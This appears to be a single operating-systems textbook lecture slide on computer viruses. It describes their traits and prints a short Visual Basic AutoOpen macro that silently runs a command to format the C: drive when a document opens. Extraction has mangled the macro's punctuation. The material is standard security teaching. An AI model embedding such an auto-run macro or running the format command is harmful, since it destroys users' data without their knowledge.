

# Program Threats (Cont.)
Viruses
Code fragment embedded in legitimate program
Self-replicating, designed to infect other computers
Very specific to CPU architecture, operating system, applications
Usually borne via email or as a macro
Visual Basic Macro to reformat hard drive
Sub AutoOpen()
Dim oFS
Set oFS = CreateObject(	Scripting.FileSystemObject  vs = Shell(	c:command.com /k format c:	,vbHide)
End Sub
)

Silberschatz, Galvin and Gagne ©2013
15.16
Operating System Concepts – 9th Edition